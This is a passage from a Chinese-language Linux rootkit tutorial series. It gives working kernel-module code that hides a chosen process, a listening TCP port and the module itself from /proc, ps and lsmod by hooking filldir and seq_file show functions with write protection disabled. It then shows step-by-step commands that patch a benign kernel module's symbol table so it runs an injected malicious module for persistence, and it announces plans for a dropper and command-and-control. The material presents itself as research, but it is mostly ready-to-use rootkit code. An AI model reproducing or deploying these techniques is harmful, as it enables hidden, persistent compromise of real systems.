我们可以看到 ext4_ 文件系统的 ``iterate`` 是 ``ext4_readdir`` 。

.. code-block:: c

   const struct file_operations ext4_dir_operations = {
        .llseek         = ext4_dir_llseek,
        .read       = generic_read_dir,
        .iterate    = ext4_readdir,
        .unlocked_ioctl = ext4_ioctl,
   #ifdef CONFIG_COMPAT
        .compat_ioctl   = ext4_compat_ioctl,
   #endif
        .fsync      = ext4_sync_file,
        .open       = ext4_dir_open,
        .release    = ext4_release_dir,
   };

``ext4_readdir`` 经过各种各样的操作之后会通过 ``filldir``
把目录里的项目一个一个的填到 ``getdents``
返回的缓冲区里，缓冲区里是一个个的 ``struct linux_dirent`` 。
我们的隐藏方法就是在 ``filldir`` 里把需要隐藏的项目给过滤掉。

4. 隐藏进程
+++++++++++

Linux 上纯用户态枚举并获取进程信息， `/proc`_ 是唯一的去处。
所以，对用户态隐藏进程，我们可以隐藏掉 `/proc`_ 下面的目录，
这样用户态能枚举出来进程就在我们的控制下了。
读者现在应该些许体会到为什么文件隐藏是本文的重点内容了。

我们修改一下上面隐藏文件时的假 ``filldir`` 即可实现进程隐藏，
如下所示。

.. code-block:: c

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       char *endp;
       long pid;

       // 把字符串变成长整数。
       pid = simple_strtol(name, &endp, 10);

       if (pid == SECRET_PROC) {
           // 是我们需要隐藏的进程，直接返回。
           fm_alert("Hiding pid: %ld", pid);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

实验
****

笔者选择隐藏 pid 1 来做演示。在使用 systemd_ 的系统上，
pid 1 总是 systemd_ ，看下图，
我们可以看到加载我们的模块（ ``pshidko`` ）之后，
``ps -A`` 看不到 systemd_ 了；把 ``pshidko`` 卸载掉，
systemd_ 就显示出来了。



5. 隐藏端口
+++++++++++

向用户态隐藏端口，
其实就是在用户进程读 `/proc`_ 下面的相关文件获取端口信息时，
把需要隐藏的的端口的内容过滤掉，
使得用户进程读到的内容里面没有我们想隐藏的端口。

具体说来，看下面的表格。

============  ==================  =======================  =================
网络类型      `/proc`_ 文件       内核源码文件             主要实现函数
------------  ------------------  -----------------------  -----------------
TCP_ / IPv4_  ``/proc/net/tcp``   ``net/ipv4/tcp_ipv4.c``  ``tcp4_seq_show``
------------  ------------------  -----------------------  -----------------
TCP_ / IPv6_  ``/proc/net/tcp6``  ``net/ipv6/tcp_ipv6.c``  ``tcp6_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv4_  ``/proc/net/udp``   ``net/ipv4/udp.c``       ``udp4_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv6_  ``/proc/net/udp6``  ``net/ipv6/udp.c``       ``udp6_seq_show``
============  ==================  =======================  =================

本小节以 TCP_ / IPv4_ 为例，其他情况读者可举一反三。

文件的第一行是每一列的含义，
后面的行就是当前网络连接（ socket_ / 套接字）的具体信息。
这些信息是通过 ``seq_file`` 接口在 ``/proc`` 中暴露的。
``seq_file`` 拥有的操作函数如下，我们需要关心是 ``show`` 。

.. code-block:: c

   struct seq_operations {
        void * (*start) (struct seq_file *m, loff_t *pos);
        void (*stop) (struct seq_file *m, void *v);
        void * (*next) (struct seq_file *m, void *v, loff_t *pos);
        int (*show) (struct seq_file *m, void *v);
   };

前面我们提到了隐藏端口也就是在进程读取 ``/proc/net/tcp`` 等文件
获取端口信息时过滤掉不希望让进程看到的内容，具体来讲，
就是将 ``/proc/net/tcp`` 等文件的 ``show``
函数篡改成我们的钩子函数，
然后在我们的假 ``show`` 函数里进行过滤。

我们先看看用来描述 ``seq_file`` 的结构体，即 ``struct seq_file`` ，
定义于 ``linux/seq_file.h`` 。
``seq_file`` 有一个缓冲区，也就是 ``buf`` 成员，
容量是 ``size`` ，已经使用的量是 ``count`` ；
理解了这几个成员的作用就能理解用于过滤端口信息的假
``tcp_seq_show`` 了。

.. code-block:: c

   struct seq_file {
        char *buf; // 缓冲区。
        size_t size; // 缓冲区容量。
        size_t from;
        size_t count; // 缓冲区已经使用的量。
        size_t pad_until;
        loff_t index;
        loff_t read_pos;
        u64 version;
        struct mutex lock;
        const struct seq_operations *op;
        int poll_event;
        const struct file *file;
        void *private;
   };

钩 ``/proc/net/tcp`` 等文件的 ``show``
函数的方法与之前讲隐藏文件钩 ``iterate`` 的方法类似，
用下面的宏可以通用的钩这几个文件 ``seq_file`` 接口里面的操作函数。

.. code-block:: c

   # define set_afinfo_seq_op(op, path, afinfo_struct, new, old)   \
       do {                                                        \
           struct file *filp;                                      \
           afinfo_struct *afinfo;                                  \
                                                                   \
           filp = filp_open(path, O_RDONLY, 0);                    \
           if (IS_ERR(filp)) {                                     \
               fm_alert("Failed to open %s with error %ld.\n",     \
                        path, PTR_ERR(filp));                      \
               old = NULL;                                         \
           }                                                       \
                                                                   \
           afinfo = PDE_DATA(filp->f_path.dentry->d_inode);        \
           old = afinfo->seq_ops.op;                               \
           fm_alert("Setting seq_op->" #op " from %p to %p.",      \
                    old, new);                                     \
           afinfo->seq_ops.op = new;                               \
                                                                   \
           filp_close(filp, 0);                                    \
       } while (0)

最后，我们看看假 ``show`` 函数是如何过滤掉端口信息的。

**注1** ： ``TMPSZ`` 是 150，内核源码里是这样定义的。
换句话说，``/proc/net/tcp``
里的每一条记录都是 149 个字节（不算换行）长，
不够的用空格补齐。

**注2** ： 我们不用 ``TMPSZ`` 也可以，并且会更加灵活，
具体细节请看下面隐藏内核模块时
``/proc/modules`` 的假 ``show`` 函数是怎么处理的。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       char needle[NEEDLE_LEN];

       // 把端口转换成 16 进制，前面带个分号，避免误判。
       // 用来判断这项记录是否需要过滤掉。
       snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
       // real_seq_show 会往 buf 里填充一项记录
       ret = real_seq_show(seq, v);

       // 该项记录的起始 = 缓冲区起始 + 已有量 - 每条记录的大小。
       if (strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)) {
           fm_alert("Hiding port %d using needle %s.\n",
                    SECRET_PORT, needle);
           // 记录里包含我们需要隐藏的的端口信息，
           // 把 count 减掉一个记录大小，
           // 相当于把这个记录去除掉了。
           seq->count -= TMPSZ;
       }

       return ret;
   }

实验
****

我们拿 TCP_ / IPv4_ 111 端口来做演示，
读者需要根据实际测试时的环境做必要改动。
如图，加载 ``pthidko`` 之前，我们可以看到 111 端口处于监听状态；
加载之后，这条记录不见了，被隐藏起来；
把 ``pthidko`` 卸载掉，这条记录又显示出来了。



6. 隐藏内核模块
+++++++++++++++

`《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
一文里提到了隐藏内核模块的两种方式，
一种可以从 ``lsmod`` 中隐藏掉，
另一种可以从 ``/sys/module`` 里隐藏掉。
然而，这两种隐藏方式都使得模块没法卸载了。
在我们开发的初级阶段，这一点也不方便调试，笔者暂时就不讲这两个了。

我们看看另外的思路。从 ``/sys/module`` 里隐藏的话，
我们使用之前隐藏文件的方式隐藏掉就可以了。
我想聪明的读者应该想到了这点，这再一次证明了文件隐藏的意义。

那么怎么从 ``lsmod`` 里隐藏掉呢。
仔细回想一下，既然 ``lsmod`` 的数据来源是 ``/proc/modules`` ，
那用我们隐藏端口时采用的方式就好了：
钩掉 ``/proc/modules`` 的 ``show`` 函数，
在我们的假 ``show`` 函数里过滤掉我们想隐藏的模块。

粗略地浏览内核源码，我们可以发现，
``/proc/modules`` 的实现位于 ``kernel/module.c`` ，
并且主要的实现函数是 ``m_show`` 。

接下来的问题是，
我们怎么钩这个文件 ``seq_file`` 接口里的 ``show`` 函数呢，
钩法与 ``/proc/net/tcp`` 并不一样，但是类似，请看下面的宏。

.. code-block:: c

   # define set_file_seq_op(opname, path, new, old)                    \
       do {                                                            \
           struct file *filp;                                          \
           struct seq_file *seq;                                       \
           struct seq_operations *seq_op;                              \
                                                                       \
           fm_alert("Opening the path: %s.\n", path);                  \
           filp = filp_open(path, O_RDONLY, 0);                        \
           if (IS_ERR(filp)) {                                         \
               fm_alert("Failed to open %s with error %ld.\n",         \
                        path, PTR_ERR(filp));                          \
               old = NULL;                                             \
           } else {                                                    \
               fm_alert("Succeeded in opening: %s\n", path);           \
               seq = (struct seq_file *)filp->private_data;            \
               seq_op = (struct seq_operations *)seq->op;              \
               old = seq_op->opname;                                   \
                                                                       \
               fm_alert("Changing seq_op->"#opname" from %p to %p.\n", \
                        old, new);                                     \
               disable_write_protection();                             \
               seq_op->opname = new;                                   \
               enable_write_protection();                              \
           }                                                           \
       } while (0)

这个宏与之前写的宏非常类似，唯一的不同，
并且读者可能不能理解的是下面这一行。

.. code-block:: c

   seq = (struct seq_file *)filp->private_data;

我想，读者的问题应该是：
``struct file`` 的 ``private_data`` 成员为什么会是我们要找的
``struct seq_file`` 指针？

请看内核源码。下面的片段是 ``/proc/modules`` 的初始部分，
我们想要做的是钩掉 ``m_show`` 。
纵观源码，引用了 ``modules_op`` 的只有 ``seq_open`` 。

.. code-block:: c

   static const struct seq_operations modules_op = {
        .start  = m_start,
        .next   = m_next,
        .stop   = m_stop,
        .show   = m_show
   };

   static int modules_open(struct inode *inode, struct file *file)
   {
        return seq_open(file, &modules_op);
   }

那我们跟进 ``seq_open`` 看看，
seq_open 的实现位于 ``fs/seq_file.c`` 。

.. code-block:: c

   int seq_open(struct file *file, const struct seq_operations *op)
   {
        struct seq_file *p;

        WARN_ON(file->private_data);

        // 分配一个 ``struct seq_file`` 的 内存。
        p = kzalloc(sizeof(*p), GFP_KERNEL);
        if (!p)
            return -ENOMEM;

        // 读者看到这一行应该就能理解了。
        // 对 ``/proc/modules`` 而言，
        // ``struct file`` 的 ``private_data`` 指向的就是
        // 他的 ``struct seq_file``。
        file->private_data = p;

        mutex_init(&p->lock);
        // 把 ``struct seq_file`` 的 ``op`` 成员赋值成 ``op``，
        // 这个 ``op`` 里就包含了我们要钩的 ``m_show`` 。
        p->op = op;

        // 这儿省略若干代码。

        return 0;
   }

这时候，我们可以看看 ``/proc/modules`` 的假 ``show`` 函数了。
过滤逻辑是很容易理解的；
读者应该重点注意一下 ``last_size`` 的计算，
这也就是笔者在讲端口隐藏时说到我们可以不用 TMPSZ ，
我们可以自己计算这一条记录的大小。
自己计算的灵活性就在于，就算每个记录的大小不是同样长的，
我们的代码也能正常工作。

**注** ： ``/proc/modules`` 里的每条记录长度确实不是一样，有长有短。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       size_t last_count, last_size;

       // 保存一份 ``count`` 值，
       // 下面的 ``real_seq_show`` 会往缓冲区里填充一条记录，
       // 添加完成后，seq->count 也会增加。
       last_count = seq->count;
       ret =  real_seq_show(seq, v);

       // 填充记录之后的 count 减去填充之前的 count
       // 就可以得到填充的这条记录的大小了。
       last_size = seq->count - last_count;

       if (strnstr(seq->buf + seq->count - last_size, SECRET_MODULE,
                   last_size)) {
           // 是需要隐藏的模块，
           // 把缓冲区已经使用的量减去这条记录的长度，
           // 也就相当于把这条记录去掉了。
           fm_alert("Hiding module: %s\n", SECRET_MODULE);
           seq->count -= last_size;
       }

       return ret;
   }

实验
****

我们选择隐藏模块自己（ ``kohidko`` ）来做演示。看下图。
加载 ``kohidko`` 之后，
``lsmod`` 没有显示出我们的模块，
``/sys/module`` 下面也列举不到我们的模块；
并且，右侧 ``dmesg`` 的日志也表明我们的假 ``filldir`` 与假 ``show``
函数起了过滤作用。



第二部分：未来展望
------------------

至此，我们讨论了大部分作为一个 Rootkit 必备的基本功能；
但是，我们的代码依旧是零散的一个一个的实验，而不是一个有机的整体。
当然，笔者的代码尽可能的做好了布局组织与模块化，
这能给我们以后组装的时候节省一些力气。

在接下来的文章里，一方面，
我们会把这些一个一个零散的实验代码组装成一个能进行实验性部署的
Rootkit。要实现这个目标，
除了组装，我们还需要释放程序（ ``Dropper`` ），
还需要增加远程控制（ ``Command & Control`` ）能力。

再者，我们可能会着手讨论 Rootkit 的检测与反检测。
还有就是讨论当前 Linux Rootkit 的实际发展状态，
比如分析已知用于实际攻击的 Rootkit 所采用的技术，
分析我们的技术水平差异，并从中学习如何实现更先进的功能。

最后，我们还可能改善兼容性与拓展性。
我们现在的代码只在比较新的内核版本（比如 4.5.x / 4.6.x）上测试过。
而且，我们压根就没有考虑已知的兼容性问题。
因而，要想在 3.x，甚至 2.x 上跑，
我们还需要花时间兼容不同版本的内核。
然后，我们还希望往其他架构上发展（比如 ARM_ ）。

**下车，走好。**

第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `This is what a root debug backdoor in a Linux kernel looks like <http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/>`_
- `mncoppola/suterusu: An LKM rootkit targeting Linux 2.6/3.x on x86(_64), and ARM <https://github.com/mncoppola/suterusu>`_
- Notification Chains in Linux Kernel `Part 01 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-part-01.html>`_ `Part 02 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-kernel.html>`_ `Part 03 <http://codingfreak.blogspot.com/2012/02/notification-chains-in-linux-kernel.html>`_

2. 延伸阅读
+++++++++++

- `Suterusu Rootkit: Inline Kernel Function Hooking on x86 and ARM <https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/>`_

.. _IDT: https://en.wikipedia.org/wiki/Interrupt_descriptor_table
.. _Interrupt descriptor table: IDT_
.. _MSR: https://en.wikipedia.org/wiki/Model-specific_register
.. _Model-specific register: MSR_
.. _MSR_LSTAR: http://lxr.free-electrons.com/ident?i=MSR_LSTAR
.. _Inline Hooking: https://en.wikipedia.org/wiki/Hooking#API.2FFunction_Hooking.2FInterception_Using_JMP_Instruction
.. _全志: http://www.allwinnertech.com/
.. _AllWinner: `全志`_
.. _uid: https://en.wikipedia.org/wiki/User_identifier
.. _euid: uid_
.. _/proc: https://en.wikipedia.org/wiki/Procfs
.. _API: https://en.wikipedia.org/wiki/Application_programming_interface
.. _代码仓库: https://github.com/NoviceLive/research-rootkit
.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门: http://www.freebuf.com/news/104270.html
.. _FB: http://www.freebuf.com/
.. _RCE: https://en.wikipedia.org/wiki/Arbitrary_code_execution
.. _LPE: https://en.wikipedia.org/wiki/Privilege_escalation
.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html
.. _ext4: https://en.wikipedia.org/wiki/Ext4
.. _systemd: https://www.freedesktop.org/wiki/Software/systemd/
.. _TCP: https://en.wikipedia.org/wiki/Transmission_Control_Protocol
.. _UDP: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4: https://en.wikipedia.org/wiki/IPv4
.. _IPv6: https://en.wikipedia.org/wiki/IPv6
.. _socket: https://en.wikipedia.org/wiki/Network_socket
.. _ARM: https://www.arm.com/
.. _Kali: https://www.kali.org/

Linux Rootkit 系列五：感染系统关键内核模块实现持久化
====================================================

**最后修改时间** ： **2016-07-21 CST** 。

rectigu@gmail.com, 二〇一六年七月。

**FreeBuf 链接** ： http://www.freebuf.com/articles/system/109034.html 。

前言
----

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hacking，请不要在物理机玩火。**

概要
----

本文分为两大部分，
第一部分是基于链接与修改符号表感染并劫持
目标内核模块的初始函数与退出函数，使其成为寄生的宿主，
实现隐蔽与持久性。第二部分为结合三个实际例子
（ ``lssec``, ``lssym``, ``setsym`` ）的ELF 文件解析起步，
这一部分提供了我们第一部分进行 Happy Hacking 所需要的工具基础，
``setsym`` ，同时也为更好的理解第一部分提供帮助信息。

第一部分：感染系统关键内核模块实现持久化
----------------------------------------

1. 编译并安装所需的 ELF 文件修改程序
++++++++++++++++++++++++++++++++++++

如果你之前已经 ``git clone`` 过代码仓库，
那么现在就可以简单地 ``git pull`` 来获取最新的改动。

进入 ``lssec.c``, ``lssym.c``, ``setsym.c`` 所在的文件夹，
编译并安装这几个程序。

::

   $ make
   $ sudo make install

这时候，这几个程序就已经安装到 ``/usr/bin`` 目录下了，
可以使用了。

**注 1** ： ``lssec`` 相当于自己造的一个功能不完善的
``readelf -S`` ，
``lssym`` 相当于自己造的一个功能不完善的 ``readelf -s``
或者 ``objdump -t`` 。
因此，只有 ``setsym`` 是必须的，其他两个可以不要。
笔者写 ``lssec`` 与 ``lssym``
是为了在后面讲解 ELF 解析的时候用作起步实例。

**注 2** ：我们会在文章的第二部分拿这几个程序当实际的例子来讲解
ELF 文件的结构与解析。现在，我们直接拿起它们用就好了。

**注 3** ： 这几个程序只支持 64 比特 ELF 文件。
如果你需要支持 32 比特 ELF 文件的工具，除了可以自行修改，
还可以使用参考资料的某篇文章提供的 ``elfchger`` ，
而这个工具只支持 32 比特 ELF 文件。

2. 内核模块函数的重定位与挂钩
+++++++++++++++++++++++++++++

演示用的简单内核模块
********************

我们拿下面的这个简单的内核模块作试验演示。

.. code-block:: c

   int
   noinj_init(void)
   {
       pr_alert("noinj: %s\n", "Greetings the World!");

       return 0;
   }

   void
   noinj_exit(void)
   {
       pr_alert("noinj: %s\n", "Farewell the World!");

       return;
   }

   module_init(noinj_init); // 请注意，这次我们使用了个性化的初始函数名，``noinj_init`` 。
   module_exit(noinj_exit); // 退出函数也是。

   int
   fake_init(void) // 用来演示符号表项挂钩的假初始函数。
   {
       noinj_exit(); // 先调用真的初始函数。

       pr_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

       return 0;
   }

   int
   fake_exit(void) // 用来演示符号表项挂钩的假退出函数。
   {
       noinj_exit(); // 先调用真的退出函数。

       pr_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

       return 0;
   }

编译之后我们可以得到一个 ``noinj.ko`` ，这是一个可重定位文件。
不妨用 ``file`` 查看一下，如下所示。

::

   $ file noinj.ko
   noinj.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=9b497fbb081f193856750e1c2fad93b0c3331edf, not stripped

模块的编译过程与 module_init / module_exit 的分析
*************************************************

生成 ``noinj.ko`` 的大致过程是这样子的：
编译器首先将所有源文件编译成目标文件，
（拿 ``noinj`` 举个例子，就是 ``noinj.c`` -> ``noinj.o`` ），
同时，编译器会自动生成一个源文件，
（在我们的例子中叫 ``noinj.mod.c`` ），
编译之后（即 ``noinj.mod.c`` -> ``noinj.mod.o`` ）
再与已经编译好的目标文件（即 ``noinj.o`` ）链接到一起，
得到一个可重定位文件（即 ``noinj.ko`` ）。

``noinj.mod.c`` 中的内容，
我们主要关心 ``__this_module`` 的定义，如下。

.. code-block:: c

   __visible struct module __this_module
   __attribute__((section(".gnu.linkonce.this_module"))) = { // 将 __this_module 变量放到 .gnu.linkonce.this_module 区间里。
        .name = KBUILD_MODNAME,
        .init = init_module, // 填充初始函数为 init_module
   #ifdef CONFIG_MODULE_UNLOAD
        .exit = cleanup_module, // 填充退出函数为 cleanup_module
   #endif
        .arch = MODULE_ARCH_INIT,
   };

我们在编写内核模块的时候不一定会使用
``init_module`` 与 ``cleanup_module``
作为初始函数与退出函数的名字；而是使用个性化的名字，
比如 ``noinj_init`` 与 ``noinj_exit`` ，
再用 ``module_init`` 与 ``module_exit``
注册我们的个性化命名的函数为初始函数与退出函数。
这时候问题来了， ``module_init`` 与 ``module_exit``
是怎么完成从个性化名字（比如 ``noinj_init`` 与 ``noinj_exit`` ）
到标准名字（即 ``init_module`` 与 ``cleanup_module`` ）的联系呢？
请看源代码，位于 ``linux/module.h`` 。

.. code-block:: c

   /* Each module must use one module_init(). */
   #define module_init(initfn)                  \
        static inline initcall_t __inittest(void)       \
        { return initfn; }                  \
        int init_module(void) __attribute__((alias(#initfn))); // 请看这里，使用 ``GCC`` 编译器的拓展功能，函数别名属性，将个性化名字与标准名字 ``init_module`` 关联起来。

   /* This is only required if you want to be unloadable. */
   #define module_exit(exitfn)                  \
        static inline exitcall_t __exittest(void)       \
        { return exitfn; }                  \
        void cleanup_module(void) __attribute__((alias(#exitfn))); // ``cleanup_module`` 也是。

观察重定位记录与符号表
**********************

下面我们看看这个内核模块的重定位记录： ``readelf -r noinj.ko`` ，
重点看看 ``.gnu.linkonce.this_module`` 的记录，
包含 ``init_module`` 与 ``cleanup_module`` 符号。

::

   Relocation section '.rela.gnu.linkonce.this_module' at offset 0x1aa88 contains 2 entries:
     Offset          Info           Type           Sym. Value    Sym. Name + Addend
   000000000158  001c00000001 R_X86_64_64       0000000000000000 init_module + 0
   0000000002f8  001a00000001 R_X86_64_64       0000000000000020 cleanup_module + 0

请结合符号表（ ``readelf -s noinj.ko`` ）来看。

::

   $ readelf -s noinj.ko
   Symbol table '.symtab' contains 34 entries:
      Num:    Value          Size Type    Bind   Vis      Ndx Name
        0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
        // 这儿省略一部分。
       25: 0000000000000000   832 OBJECT  GLOBAL DEFAULT   11 __this_module
       26: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 cleanup_module // 真的退出函数的记录，名字是 cleanup_module，Value 是 0x20。
       27: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND __fentry__
       28: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 init_module // 真的初始函数的记录，名字是 init_module， Value 是 0x00。
       29: 0000000000000040    46 FUNC    GLOBAL DEFAULT    2 fake_init // 假的初始函数的记录，Value 是 0x40。
       30: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 noinj_init // 真的初始函数的记录，名字是 noinj_init， 但 Value 是 0x00，与 init_module 一样。
       31: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 noinj_exit // 真的退出函数的记录，名字是 noinj_exit， 但 Value 是 0x20，与 cleanup_module 一样。
       32: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND printk
       33: 0000000000000070    46 FUNC    GLOBAL DEFAULT    2 fake_exit // 假的初始函数的记录，Value 是 0x70。

如果我们将 ``init_module`` 符号的值，改成 ``fake_init`` 符号的值，
那么在模块加载进行符号解析、重定位的时候，
``init_module`` 会解析、定位到 ``fake_init`` ，
从而导致我们的假初始函数被执行，
而真的初始函数不会执行（当然，
因为我们假初始函数会调用真的初始函数，所以真的初始函数也会执行，
但是这已经是在我们的掌控之下了）。

``cleanup_module`` 类似。下面我们通过实验来演示这一点。

实验演示符号表项的劫持
**********************

``setsym`` 的用法是这样子的，有两种：一，传递两个位置参数，
第一个是内核模块路径，第二个是符号名，
这时 ``setsym`` 会把这个符号的值打印出来；二，传递三个位置参数，
第一个是内核模块路径，第二个是符号名，第三个是值，
这时 ``setsym`` 会把这个符号的值修改成给定的值。
简言之，如下。

::

   // 第一种用法，获取符号的值。
   setsym <module_path> <symbol_name>

   // 第二种用法，设置符号的值。
   setsym <module_path> <symbol_name> <symbol_value>

实验操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建模块。
   $ make

   // 复制一份副本用于对照演示。
   $ cp noinj.ko infected.ko

   // 将副本的 init_module 符号值改成 fake_init 符号值。
   $ setsym infected.ko init_module $(setsym infected.ko fake_init)

   // 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
   $ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
   // 加载原始的模块。
   $ insmod noinj.ko

   // 卸载载原始的模块。
   $ rmmod noinj

   // 加载修改过的副本。
   $ insmod infected.ko

   // 卸载修改过的副本。
   $ rmmod noinj // 注意模块名要用宿主的，即 noinj

正常情况下，系统应该调用真的初始函数，
而假的初始函数根本没有执行的机会，因为没人调用了它。

但是对比原本与副本加载、卸载过程中 ``dmesg`` 打印出来的消息，
可以得知，副本里的真初始函数是被假初始函数调用的，
而假初始函数则是被系统调用的。
也就是说，完成了对初始函数的劫持 / 挂钩。

效果如下图所示。



3. 感染一个示例内核模块
+++++++++++++++++++++++

在上一小节，我们演示了将初始函数与退出函数劫持成
同一个模块里的另一个函数，
现在我们看看怎样把一个良民模块的初始函数与退出函数
劫持成另一个恶意模块的初始函数与退出函数。
此外，恶意模块的代码也要注入到良民模块里，
这样，恶意模块才能起作用。

修改 fshid 使其便于寄生
***********************

这次我们用的良民模块跟上面那个 ``noinj`` 没什么本质差别，
换了下名字来彰显代码注入这个话题，所以叫 ``codeinj`` 。

恶意模块的话，就用 `笔者的上一篇文章`_ 里的 ``fshid`` ；
注意，我们需要对 ``fshid`` 作一些必要的改动。
一来，要把初始函数从 ``init_module`` 改成 ``fshid_init`` ，
``cleanup_module`` 也类似改成 ``fshid_exit`` ；
这是为了避免与良民模块出现名字冲突。
二来，我们要在 ``fshid_init`` 里调用良民模块（即 ``codeinj`` ）
的初始函数（即 ``codeinj_init`` ），
类似地， ``fshid_exit`` 里调用 ``codeinj_exit`` ；
这是为了让我们的挂钩对宿主模块（即良民模块）的功能不产生影响，
使别人观察不到我们的恶意模块的存在。

将 fshid 感染到示例模块中
*************************

具体操作如下。

